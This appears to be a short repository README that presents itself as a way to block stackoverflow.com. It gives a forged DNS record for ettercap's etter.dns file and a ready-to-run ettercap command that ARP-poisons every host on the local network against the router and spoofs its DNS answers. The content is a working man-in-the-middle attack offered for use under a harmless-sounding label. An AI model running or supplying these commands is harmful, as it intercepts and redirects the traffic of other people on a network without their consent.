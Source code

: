 # Block stackoverflow.com

- If installed using homebrew:

Open `/opt/homebrew/etc/ettercap/etter.dns` file

- If installed using other tools:

Open `/etc/ettercap/etter.dns` file

Add the following contents

```
stackoverflow.com A 172.217.24.228
*.stackoverflow.com A 172.217.24.228
```

172.217.24.228 is the IP of google, google will automatically detect dns spoofing and block the access

Run the following command

`sudo ettercap -T -q -i en0 -P dns_spoof -P autoadd -M arp:remote /192.168.1.1// ///`

192.168.1.1 is the router IP address